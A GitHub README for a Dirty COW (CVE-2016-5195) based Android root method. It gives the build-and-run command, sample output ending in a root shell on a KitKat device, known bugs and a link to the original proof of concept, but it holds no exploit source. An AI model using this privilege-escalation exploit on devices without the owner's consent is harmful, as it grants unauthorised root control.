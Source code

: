 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
Tested On Android Kitkat 4.4  
##Bugs / Problems  
1)  
  System Will Hang If You Exec a command on spawned shell  
  Temp Fix: Exit Back to Terminal and type  
  1) adb shell  
  2) run-as  
  Going adb shell run-as will produce the hang  
2) 
  Android 5 (Samsung Galaxy S4)  
  setresgid/setresuid failed  
  
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
